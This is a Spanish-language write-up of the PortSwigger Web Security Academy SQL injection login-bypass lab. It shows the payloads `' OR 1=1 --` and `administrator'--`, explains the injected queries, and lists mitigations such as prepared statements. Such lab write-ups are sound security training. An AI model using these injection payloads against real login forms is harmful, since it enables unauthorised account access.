




# SQL Injection Vulnerability Allowing Login Bypass

## 📌 Lab Information

- **Lab:** Login Bypass
- **Nivel:** Apprentice
- **Categoría:** SQL Injection Authentication Bypass
- **Plataforma:** PortSwigger Web Security Academy

🔗 [Acceder al laboratorio](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

---

## 🎯 Objetivo

Realizar un bypass de autenticación mediante SQL Injection para acceder como usuario `administrator`.

---

## 🔍 Identificación de la vulnerabilidad

Probamos ingresando comillas simples `'` en los campos de usuario y contraseña para validar posibles errores SQL.

### Username y password con comillas simples



---

### Usuario administrator y comilla simple en password



El sistema devuelve un error SQL indicando que el campo es vulnerable.



---

## 🚀 Explotación

Utilizamos una condición verdadera para bypassear la autenticación:

```sql
' OR 1=1 --
```



---

## 🧠 Explicación Técnica

Consulta original:

```sql
SELECT user
FROM usuarios
WHERE user = 'administrator' AND password = ''
```

Consulta inyectada:

```sql
SELECT user
FROM usuarios
WHERE user = 'administrator' OR '1'='1' -- AND password = ''
```

### Explicación

- `OR '1'='1'` fuerza la condición verdadera.
- `--` comenta el resto de la consulta.
- La validación de contraseña queda anulada.

---

## 🔥 Variante Alternativa

También puede realizarse de esta forma:

```sql
administrator'--
```

Consulta resultante:

```sql
SELECT user
FROM usuarios
WHERE user = 'administrator'--' AND password = ''
```

En este caso:
- El comentario SQL elimina la validación del password.
- Solo se valida la existencia del usuario.

---

## ✅ Resultado

Se logró realizar un bypass de autenticación accediendo como usuario `administrator`.

---

## 🛡️ Mitigaciones

- Prepared Statements
- Parametrización de consultas
- ORM seguros
- Sanitización de entradas
- MFA
